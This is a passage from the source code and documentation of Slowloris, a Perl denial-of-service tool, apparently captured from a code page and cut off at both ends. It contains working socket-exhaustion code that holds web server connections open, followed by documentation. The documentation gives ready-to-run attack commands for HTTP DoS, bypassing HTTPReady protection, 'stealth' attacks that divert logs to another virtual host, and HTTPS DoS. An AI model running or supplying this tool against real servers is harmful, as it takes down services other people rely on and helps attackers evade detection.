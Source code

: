 $working[$z] == 1 ) {                 if ( $sock[$z] ) {                     my $handle = $sock[$z];                     if ( print $handle "X-a: b\r\n" ) {                         $working[$z] = 1;                         $packetcount++;                     }                     else {                         $working[$z] = 0;                         #debugging info                         $failed++;                         $failedconnections++;                     }                 }                 else {                     $working[$z] = 0;                     #debugging info                     $failed++;                     $failedconnections++;                 }             }         }         print "Current stats:\tSlowloris has now sent $packetcount packets successfully.\nThis thread now sleeping for $timeout seconds...\n\n";         sleep($timeout);     } }  sub domultithreading {     my ($num) = @_;     my @thrs;     my $i                    = 0;     my $connectionsperthread = 50;     while ( $i &lt; $num ) {         $thrs[$i] =           threads->create( \&amp;doconnections, $connectionsperthread, 1 );         $i += $connectionsperthread;     }     my @threadslist = threads->list();     while ( $#threadslist > 0 ) {         $failed = 0;     } }  __END__  =head1 TITLE  Slowloris  =head1 VERSION  Version 0.7 Beta  =head1 DATE  06/17/2009  =head1 AUTHOR  RSnake &lt;h@ckers.org> with threading from John Kinsella  =head1 ABSTRACT  Slowloris both helps identify the timeout windows of a HTTP server or Proxy server, can bypass httpready protection and ultimately performs a fairly low bandwidth denial of service.  It has the added benefit of allowing the server to come back at any time (once the program is killed), and not spamming the logs excessively.  It also keeps the load nice and low on the target server, so other vital processes don't die unexpectedly, or cause alarm to anyone who is logged into the server for other reasons.  =head1 AFFECTS  Apache 1.x, Apache 2.x, dhttpd, GoAhead WebServer, others...?  =head1 NOT AFFECTED  IIS6.0, IIS7.0, lighttpd, nginx, Cherokee, Squid, others...?  =head1 DESCRIPTION  Slowloris is designed so that a single machine (probably a Linux/UNIX machine since Windows appears to limit how many sockets you can have open at any given time) can easily tie up a typical web server or proxy server by locking up all of it's threads as they patiently wait for more data.  Some servers may have a smaller tolerance for timeouts than others, but Slowloris can compensate for that by customizing the timeouts.  There is an added function to help you get started with finding the right sized timeouts as well.  As a side note, Slowloris does not consume a lot of resources so modern operating systems don't have a need to start shutting down sockets when they come under attack, which actually in turn makes Slowloris better than a typical flooder in certain circumstances.  Think of Slowloris as the HTTP equivalent of a SYN flood.  =head2 Testing  If the timeouts are completely unknown, Slowloris comes with a mode to help you get started in your testing:  =head3 Testing Example:  ./slowloris.pl -dns www.example.com -port 80 -test  This won't give you a perfect number, but it should give you a pretty good guess as to where to shoot for.  If you really must know the exact number, you may want to mess with the @times array (although I wouldn't suggest that unless you know what you're doing).  =head2 HTTP DoS  Once you find a timeout window, you can tune Slowloris to use certain timeout windows.  For instance, if you know that the server has a timeout of 3000 seconds, but the the connection is fairly latent you may want to make the timeout window 2000 seconds and increase the TCP timeout to 5 seconds.  The following example uses 500 sockets.  Most average Apache servers, for instance, tend to fall down between 400-600 sockets with a default configuration.  Some are less than 300.  The smaller the timeout the faster you will consume all the available resources as other sockets that are in use become available - this would be solved by threading, but that's for a future revision.  The closer you can get to the exact number of sockets, the better, because that will reduce the amount of tries (and associated bandwidth) that Slowloris will make to be successful.  Slowloris has no way to identify if it's successful or not though.  =head3 HTTP DoS Example:  ./slowloris.pl -dns www.example.com -port 80 -timeout 2000 -num 500 -tcpto 5  =head2 HTTPReady Bypass  HTTPReady only follows certain rules so with a switch Slowloris can bypass HTTPReady by sending the attack as a POST verses a GET or HEAD request with the -httpready switch.   =head3 HTTPReady Bypass Example  ./slowloris.pl -dns www.example.com -port 80 -timeout 2000 -num 500 -tcpto 5 -httpready  =head2 Stealth Host DoS  If you know the server has multiple webservers running on it in virtual hosts, you can send the attack to a seperate virtual host using the -shost variable.  This way the logs that are created will go to a different virtual host log file, but only if they are kept separately.  =head3 Stealth Host DoS Example:  ./slowloris.pl -dns www.example.com -port 80 -timeout 30 -num 500 -tcpto 1 -shost www.virtualhost.com  =head2 HTTPS DoS  Slowloris does support SSL/TLS on an experimental basis with the -https switch.  The usefulness of this particular option has not been thoroughly tested, and in fact has not proved to be particularly effective in the very few tests I performed during the early phases of development.  Your mileage may vary.  =head3 HTTPS DoS Example:  ./slowloris.pl -dns www.example.com -port 443 -timeout 30 -num 500 -https  =head2 HTTP Cache  Slowloris does support cache avoidance on an experimental basis with the -cache switch.  Some caching servers may look at the request path part of the header, but by sending different requests each